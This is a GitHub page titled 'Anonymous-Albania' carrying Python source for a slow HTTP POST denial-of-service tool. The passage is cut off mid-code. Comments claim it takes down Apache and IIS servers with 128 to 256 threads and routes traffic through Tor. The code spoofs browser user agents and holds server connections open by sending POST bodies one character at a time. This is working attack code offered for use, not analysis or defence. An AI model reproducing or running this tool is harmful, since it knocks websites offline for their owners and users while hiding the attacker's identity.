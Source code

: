 # Anonymous-Albania
#!/usr/bin/python  # this assumes you have the socks.py (http://phiral.net/socks.py)  # and terminal.py (http://phiral.net/terminal.py) in the # same directory and that you have tor running locally  # on port 9150. run with 128 to 256 threads to be effective. # kills apache 1.X with ~128, apache 2.X / IIS with ~256 # not effective on nginx  import time import sys import random import getopt import socks import string import terminal  from threading import Thread  global stop_now global term  stop_now = False term = terminal.TerminalController()  useragents = [  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.04506.30)",  "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.1.4322)",  "Googlebot/2.1 (http://www.googlebot.com/bot.html)",  "Opera/9.20 (Windows NT 6.0; U; en)",  "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.1) Gecko/20061205 Iceweasel/2.0.0.1 (Debian-2.0.0.1+dfsg-2)",  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; FDM; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 1.1.4322)",  "Opera/10.00 (X11; Linux i686; U; en) Presto/2.2.0",  "Mozilla/5.0 (Windows; U; Windows NT 6.0; he-IL) AppleWebKit/528.16 (KHTML, like Gecko) Version/4.0 Safari/528.16",  "Mozilla/5.0 (compatible; Yahoo! Slurp/3.0; http://help.yahoo.com/help/us/ysearch/slurp)", # maybe not  "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.13) Gecko/20101209 Firefox/3.6.13"  "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 5.1; Trident/5.0)",  "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",  "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 6.0)",  "Mozilla/4.0 (compatible; MSIE 6.0b; Windows 98)",  "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)",  "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.8) Gecko/20100804 Gentoo Firefox/3.6.8",  "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.7) Gecko/20100809 Fedora/3.6.7-1.fc14 Firefox/3.6.7",  "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",  "Mozilla/5.0 (compatible; Yahoo! Slurp; http://help.yahoo.com/help/us/ysearch/slurp)",  "YahooSeeker/1.2 (compatible; Mozilla 4.0; MSIE 5.5; yahooseeker at yahoo-inc dot com ; http://help.yahoo.com/help/us/shop/merchant/)" ]   class httpPost(Thread):     def __init__(self, host, port, tor):         Thread.__init__(self)         self.host = host         self.port = port         self.socks = socks.socksocket()         self.tor = tor         self.running = True      def _send_http_post(self, pause=10):         global stop_now          self.socks.send("POST / HTTP/1.1\r\n"                         "Host: %s\r\n"                         "User-Agent: %s\r\n"                         "Connection: keep-alive\r\n"                         "Keep-Alive: 900\r\n"                         "Content-Length: 10000\r\n"                         "Content-Type: application/x-www-form-urlencoded\r\n\r\n" %                         (self.host, random.choice(useragents)))          for i in range(0, 9999):             if stop_now:                 self.running = False                 break             p = random.choice(string.letters+string.digits)             print term.BOL+term.UP+term.CLEAR_EOL+"Posting: %s" % p+term.NORMAL             self.socks.send(p)             time.sleep(random.uniform(0.1, 3))          # self.socks.close()      def run(self):         while self.running:             while self.running:                 try:                     if self.tor:                         self.socks.set_proxy(socks.SOCKS5, '127.0.0.1', 9150)                         time.sleep(1)                     self.socks.connect((self.host, self.port))                     print term.BOL+term.UP+term.CLEAR_EOL+"Connected to host..."+ term.NORMAL                     break                 except Exception, e:                     print term.BOL+term.UP+term.CLEAR_EOL+"Error connecting to host
